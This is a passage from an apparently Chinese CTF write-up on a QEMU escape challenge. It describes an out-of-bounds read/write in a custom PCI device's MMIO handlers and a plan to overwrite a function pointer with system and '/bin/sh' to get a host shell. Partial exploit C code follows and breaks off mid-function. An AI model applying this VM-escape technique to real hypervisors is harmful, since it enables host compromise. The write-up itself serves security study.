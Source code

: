 ### 2. 漏洞

由 d3dev_pmio_write 函数得知可为 opaque->seek 赋值为 0x100，blocks 有 0x800 字节，d3dev_mmio_read 内的

 

data = opaque->blocks[opaque->seek + (addr >> 3)]，此处的 blocks 是通过 index 的方式进行访存，而 blocks 又是 dq 的数据 (8 bytes)，所以 seek 的 0x100 可以访问到的内存就是 0-0x800，而通过 addr 进行越界读；

 

d3dev_mmio_write 也是如此，可以越界写，我们就有了任意读写 d3devState 这个**结构体附近**的内存的 "权利".

 

在 pmio_write 里有执行 system 的机会，将 opaque->rand_r 覆盖为 system，opaque->r_seed 覆盖为 "/bin/sh"

### 3. 利用

```
#include #include #include #include #include #include unsigned char* mmio_mem;
void setup_mmio() {
    int mmio_fd = open("/sys/devices/pci0000:00/0000:00:03.0/resource0", O_RDWR | O_SYNC);
    mmio_mem = mmap(0, 0x1000, PROT_READ | PROT_WRITE, MAP_SHARED, mmio_fd, 0);
}
 
void mmio_write(uint32_t addr,uint32_t val){
    *((uint32_t*)(addr+mmio_mem)) = val;
}
 
uint64_t mmio_read(uint64_t addr){
    return *((uint64_t*)(addr+mmio_mem));
}
 
uint32_t pmio_base = 0xc040;
void setup_pmio() {
    iopl(3);  // 0x3ff 以上端口全部开启访问
}
 
uint64_t pmio_read(uint64_t addr){
    return (uint64_t)inl(pmio_base + addr);
}
 
uint64_t pmio_write(uint64_t addr,uint64_t val){
    outl(val,addr+pmio_base);
}
 
 
//因为key=0，所以直接省略掉key进行写加密解密函数。注意exp内的en实际对应的是de
uint64_t en(uint32_t high,uint32_t low){
    uint32_t sum = 0xC6EF3720;
    uint32_t delta = 0x9E3779b9;
    for(int i=0;i<32;i++){
        high -= (low*16) ^ (low+sum) ^ (low>>5);
        low -= (high*16) ^ (high+sum) ^ (high>>5);
        //sum -= delta;
        sum += 0x61C88647;
    }
    return (uint64_t)high * 0x100000000 + low;
}
 
uint64_t de(uint32_t high,uint32_t low){
    uint32_t sum=0;
    uint32_t delta = 0x9E3779b9;
    for(int i=0;i<32;i++){
        //sum += delta;
        sum -= 0x61C88647;
        low += (high*16) ^ (high+sum) ^ (high>>5);
```